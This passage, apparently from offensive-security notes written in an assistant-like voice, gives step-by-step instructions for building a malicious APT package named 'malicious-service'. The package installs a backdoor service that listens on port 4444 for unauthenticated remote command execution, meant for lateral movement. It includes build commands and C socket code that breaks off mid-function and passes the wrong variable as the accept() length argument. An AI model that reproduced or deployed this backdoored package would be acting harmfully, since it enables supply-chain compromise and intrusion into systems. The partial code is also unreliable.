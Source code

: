 These techniques and tools provide a comprehensive approach to enumerating and exploiting binary software managers on both Windows and Linux systems.

## Apt package compromise

Yes, you can create a package using APT (Advanced Package Tool) that installs an exploitable service on a Linux system, which could facilitate lateral movement within a network. Below are the steps and considerations for doing this:

### **Steps to Create a Malicious APT Package**

#### 1. **Set Up the Environment**
   - **Install Required Tools:**
     ```bash
     sudo apt-get install dh-make devscripts build-essential fakeroot
     ```

   - **Create a Working Directory:**
     ```bash
     mkdir ~/malicious-package
     cd ~/malicious-package
     ```

#### 2. **Create the Package Structure**
   - **Initialize the Package:**
     ```bash
     dh_make --createorig -s -p malicious-service_1.0
     ```

   - This command initializes the package with the name `malicious-service` and version `1.0`.

#### 3. **Add the Exploitable Service**
   - **Create a Simple Vulnerable Service:**
     - For example, you could create a service that listens on a network port and allows unauthenticated remote command execution:
     - Create a `malicious-service.c` file:
       ```c
       #include <stdio.h>
       #include <stdlib.h>
       #include <unistd.h>
       #include <sys/socket.h>
       #include <netinet/in.h>

       int main() {
           int sockfd, new_sock;
           struct sockaddr_in serv_addr, cli_addr;
           char buffer[1024];
           sockfd = socket(AF_INET, SOCK_STREAM, 0);
           serv_addr.sin_family = AF_INET;
           serv_addr.sin_addr.s_addr = INADDR_ANY;
           serv_addr.sin_port = htons(4444);

           bind(sockfd, (struct sockaddr *) &serv_addr, sizeof(serv_addr));
           listen(sockfd, 5);
           new_sock = accept(sockfd, (struct sockaddr *) &cli_addr, (socklen_t *) &cli_addr);
